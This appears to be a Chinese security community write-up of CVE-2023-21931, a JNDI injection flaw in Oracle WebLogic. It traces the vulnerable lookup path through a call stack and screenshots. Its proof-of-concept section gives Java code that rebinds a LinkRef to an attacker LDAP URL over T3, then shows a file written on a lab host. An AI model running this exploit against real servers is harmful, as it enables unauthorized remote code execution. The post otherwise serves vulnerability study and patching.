# CVE-2023-21931 Weblogic JNDI注入漏洞原理分析及漏洞利用 - 先知社区

CVE-2023-21931 Weblogic JNDI注入漏洞原理分析及漏洞利用

* * *

## 影响

Oracle WebLogic Server product of Oracle Fusion Middleware (component: Core)

*   12.2.1.3.0
    
*   12.2.1.4.0
    
*   14.1.1.0.0
    

## 原理

根据[nvd](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)的描述

能够轻易的通过发送T3协议给weblogic服务造成JNDI的注入

这里的漏洞点和之前的CVE-2023-21839的成因感觉上是很像的，CVE-2023-21839主要是因为weblogic的t3 / iiop协议支持远程绑定对象bind / rebind到服务端，之后在调用`lookup`的过程中，存在有参数可控的`lookup`的调用，也即是`weblogic.deployment.jms.ForeignOpaqueReference#getReferent`中代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192339-a1ed6f98-dea4-1.png)

而对于昨天公开的CVE-2023-21931这个漏洞，同样和上一次CVE一样，是在lookup的调用过程中存在有一个可控的lookup方法调用造成了一个JNDI注入，即是通过`LinkRef#getLinkName`方法来获取ldap查询串，具体的分析见下文

## 分析

前面提到了这里主要的漏洞成因是在进行lookup查询的过程中造成的问题

动态调试一下

给个调用栈：

```plain
lookup:417, InitialContext (javax.naming)
getObjectInstance:98, WLNamingManager (weblogic.jndi.internal)
resolveObject:388, ServerNamingNode (weblogic.jndi.internal)
resolveObject:886, BasicNamingNode (weblogic.jndi.internal)
lookup:219, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:701, BasicServerRef (weblogic.rmi.internal)
invoke:231, ClusterableServerRef (weblogic.rmi.cluster)
run:527, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:523, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:311, ExecuteThread (weblogic.work)
run:263, ExecuteThread (weblogic.work)
```

从调用栈中很明显，weblogic主要是通过使用`BasicServerRef#invoke`来处理传递过来的数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192530-e463654e-dea4-1.png)

对消息进行了一些处理之后，再次将请求传递给`RootNamingNode_WLSkel#invoke`方法继续处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192536-e8270e6a-dea4-1.png)

开始就对var1进行不同的处理，经过`BasicServerRef#invoke`的处理，这时候的`var1`为14，我们跟进`case 14`的具体实现

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192542-eb641096-dea4-1.png)

对接收到的请求进行消息的提取之后继续传递到`BasicNamingNode#lookup`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192548-eef08212-dea4-1.png)

此时我们通过`getRest`返回的值为空，选择调用`resolveObject`方法，并传入我们自定义的数据进行处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192553-f25464b4-dea4-1.png)

之后就分别是`BasicNamingNode / ServerNamingNode`的`resolveObject`方法的调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192602-f76080fa-dea4-1.png)

最后会通过利用`WLNamingManager#getObjectInstance`获取我们的对象实例

这两个CVE主要就是这里了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192609-fb5a0c1c-dea4-1.png)

分别是上面两个箭头所示位置

这里主要判断这个CVE，如果我们bind的对象是一个`LinkRef`对象，将会进入else if语句中，在这其中，lookup方法的参数是通过调用`LinkRef#getLinkName`方法来进行获取的

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192616-ffffc978-dea4-1.png)

很简单的可以通过利用构造方法传入一个ldap查询连接来对linkName赋值

写一个demo证明一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192631-08657c8e-dea5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192637-0c842720-dea5-1.png)

所以，目的现在就很明确了

## POC构造

我们之后进行POC的构造

对于漏洞利用的构造首先就是需要将恶意的对象也即是`LinkRef`绑定到服务端中

首先创建一个用来绑定远程对象的InitialContext

```plain
String url = "t3://192.168.153.136:7001"; // 目标机器
Hashtable env1 = new Hashtable();
env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
env1.put(Context.PROVIDER_URL, url); // 目标
InitialContext c = new InitialContext(env1);
```

之后就是将我们的恶意`LinkRef`对象绑定

```plain
LinkRef linkRef = new LinkRef("ldap://192.168.153.1:1389/5irv7b");
c.rebind("sectest", linkRef);
```

最后只需要进行`lookup`查询调用就能够进行JNDI注入攻击

验证一下

## 漏洞利用

运行JNDI注入工具

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192732-2cdef43c-dea5-1.png)

漏洞环境中不存在2023文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192738-30c67886-dea5-1.png)

运行漏洞利用程序

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192744-33fc0782-dea5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230419192749-372dcbde-dea5-1.png)

成功写入了一个空文件

## Ref

[https://xz.aliyun.com/t/12297](https://xz.aliyun.com/t/12297)

[https://nvd.nist.gov/vuln/detail/CVE-2023-21931](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)
